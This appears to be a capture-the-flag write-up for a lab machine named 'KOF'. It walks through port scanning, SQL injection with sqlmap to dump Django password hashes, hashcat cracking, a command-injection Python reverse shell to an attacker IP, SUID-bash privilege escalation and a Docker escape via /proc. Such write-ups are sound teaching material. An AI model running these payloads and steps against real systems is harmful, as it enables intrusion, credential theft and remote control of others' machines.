










# KOF


## Recon
In the beginning, I used NMAP with the following parameters. I found only ports 22 and 8000 open (it seems to be a Django application running on Linux).
```
sudo nmap 172.16.11.225 -Pn -sSVC -T5

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.9.19
|_http-server-header: WSGIServer/0.2 CPython/3.9.19
|_http-title: KOF 2002 Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I performed fuzzing on the Django application using Feroxbuster and discovered three directories: register, panel, and dashboard.
```
feroxbuster -u http://172.16.11.225:8000/

found:5       errors:0      
http://172.16.11.225:8000/ 
http://172.16.11.225:8000/register/ 
http://172.16.11.225:8000/panel/ 
http://172.16.11.225:8000/dashboard/
```


Upon accessing the page, the most prominent feature is a search field that passes the `q` parameter via GET and displays the searched team.


When testing this endpoint with SQLMap, it was identified that the database uses SQLite and that the parameter is vulnerable to SQL injection (SQLi).
`python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --risk 3 --level`




## Exploitation
We can include the `--dbms` sqlite flag to specify that the database in use is SQLite.

To enumerate the database tables, we use the `--tables` option and execute the following arguments: `--dbms sqlite --threads 10`.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --tables --threads 10

[12 tables]
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| authentication_teams       |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
| sqlite_sequence            |
+----------------------------+
```

To discover the columns of a table, we use the `-T table_name --columns` option. In our case, we'll retrieve the columns from the `auth_user` table, as we have a `/panel` endpoint where we can attempt to log in.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user --columns

Table: auth_user
[11 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date_joined  | datetime |
| email        | varchar  |
| first_name   | varchar  |
| id           | integer  |
| is_active    | TEXT     |
| is_staff     | TEXT     |
| is_superuser | TEXT     |
| last_login   | datetime |
| last_name    | varchar  |
| password     | varchar  |
| username     | varchar  |
+--------------+----------+
```

From the `auth_user` table, we want to extract the `username`, `password`, `is_staff`, and `is_superuser` columns. Most likely, the user with `is_staff` and `is_superuser` set to true will be the admin.
```
$ python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user -C username,password,is_staff,is_superuser --dump

Table: auth_user
[3 entries]
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| username | password                                                                                 | is_staff | is_superuser |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| lucas    | pbkdf2_sha256$600000$uK8mOpGqJgz6n8NpSq6sW4$teEmzYbauC23hUiCWchvGVcOxbPkNOIEq4yZ3ZCc2vw= | 0        | 0            |
| sitara   | pbkdf2_sha256$600000$hgmRaAKIjaJXPw15HJtGzM$rcr8QB224t9Rf8e1AKpyfimvWLTJl1r+ZCGTtvKI8X4= | 0        | 0            |
| vanessa  | pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ= | 1        | 1            |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
```

The user "vanessa" is likely the admin. We can use Hashcat to identify the hash type (based on the hash itself, we conclude it’s a PBKDF2-SHA256 from Django). To do this, we extract the hash of the user and save it in a file without an extension, named `hash`. From there, we can attempt to crack the hash using Hashcat with mode `10000` (for PBKDF2-SHA256) and the Rockyou wordlist.
```
hashcat --identify hash

The following hash-mode match the structure of your input hash:

    # | Name                                                       | Category
======+============================================================+======================================
10000 | Django (PBKDF2-SHA256)                                     | Framework
```
```
hashcat -m 10000 hash /usr/share/seclists/Passwords/rockyou.txt

pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ=:princess1
```

Therefore, the admin password for "vanessa" is `princess1`. Upon accessing the `/panel` endpoint with admin creds, we encounter this page.


By clicking to generate an IP and then on "Test Connection," we can analyze the request. A POST request is made to the backend with the CSRF, game, vpn, and test_connection parameters. It seems that this feature tests the connection to another host in some way.


Since the machine doesn't have internet access, it won't be able to reach any public IP. However, if we place a local IP in the `test_connection` parameter, it responds that the connection was successful, and the test indicates that there is a connection.


What might be happening here is that we are directly passing the IP, and the server is executing some action. We can try to establish a reverse connection to our machine by injecting a ; (since it could be executed in bash) and using Python. Payload:
```
;export RHOST="10.0.10.235";export RPORT=1234;python-c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```



To upgrade the shell to a full TTY, we can follow these steps:
* Type `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
* Press `Ctrl+Z` to background the shell as a service.
* Type `stty raw -echo && fg`.
* Press `Enter`.
* Finally, type `export TERM=xterm`.

## Post exploitation
At first glance, using `ps aux`, I identified that we are in a Docker environment. I couldn't find the first flag, meaning the first objective is to escalate to root, and the second is to perform a Docker escape.

After running `linpeas` on the server, I found two endpoints to investigate. Upon analyzing this information, we can conclude that `/usr/bin/bash` may be exploitable (it has the SUID bit set).
```
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts

-rwsr-xr-x 1 root root 1.3M Apr 23  2023 /usr/bin/bash 

═╣ /proc mounted? ................. Yes
```

```
cp /bin/bash /tmp/ #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

By exploiting this, we will escalate privileges to root in order to retrieve the first flag in `/root`.

## Docker escape/breakout
To perform the Docker breakout/escape, I will use the `/proc` endpoint. First, I need to retrieve the Docker process ID by running `ps aux | grep docker`.
<br>


With this, we can access the Docker process directory, navigate to the root directory, and then escape to the root directory of the host machine running the Docker container. So `cd /proc/2741/root/`.
<br>


Here are the two flags: one for the default root user after privilege escalation (`flag.txt`), and the other for the Docker breakout (`root.txt`).
**Disclaimer**: Docker breakout can be achieved in other ways, such as using Process Injection.
- [Linux Process Injection - W3ndige](https://github.com/W3ndige/linux-process-injection/)
- [7 Ways to Escape a Container - Panoptica](https://www.panoptica.app/research/7-ways-to-escape-a-container)